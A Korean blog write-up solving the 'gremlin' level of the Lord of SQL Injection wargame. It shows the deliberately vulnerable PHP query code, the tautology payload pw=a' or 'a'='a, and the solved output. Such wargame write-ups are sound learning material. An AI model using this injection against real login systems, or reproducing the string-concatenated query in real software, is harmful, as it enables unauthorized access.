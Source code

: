 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - gremlin 문제풀이"
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Lord of SQL Injection
---
```


예전에 `LoS` 문제를 풀어본 적 있었다.  

이 때는 [http://los.eagle-jump.org](http://los.eagle-jump.org)에서 풀었었는데, 원작자가 새로운 문제를 추가 해 서비스를 시작했다 해 다시 풀어보게 되었다.  

사이트 주소는 [http://los.rubiya.kr](http://los.rubiya.kr) 이다.  

<!--more-->

`LoS`는 따로 플래그를 입력하는 방식이 아니라 코드 안의 `solve()` 함수가 동작하도록 하면 문제가 풀린다.  

그리고 친절하게 내가 입력 한 값이 어떻게 쿼리에 들어가는지도 보여준다.  

첫 번째 문제는 `gremlin`이다.  

코드는 다음과 같다.  

```php
-----------------------------------------------------------
query : select id from prob_gremlin where id='' and pw=''
-----------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

문제를 풀기 위해서는 `if($result['id']) solve("gremlin");`에서 조건문을 통과해야 한다.  

즉, 쿼리를 실행했을 때 추출되는 id 값이 있으면 된다.  

실행되는 쿼리는 다음과 같다.  

```php
select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'
```

이 때, `id`와 `pw`의 값은 `GET` 방식으로 받아온다.  

`id`가 뭐든 상관 없기때문에 그냥 쿼리 결과가 참이 될 수 있는 값을 입력하면 될 것 같다.  

쿼리문을 완성하기 위해 아래와 같이 입력했다.  

```
?id=admin&pw=a' or 'a'='a
```

그 결과 아래와 같이 문제를 풀 수 있었다.  

```php
-----------------------------------------------------------------------------
query : select id from prob_gremlin where id='admin' and pw='a' or 'a' = 'a'
-----------------------------------------------------------------------------

GREMLIN Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

`Gremlin Clear!!`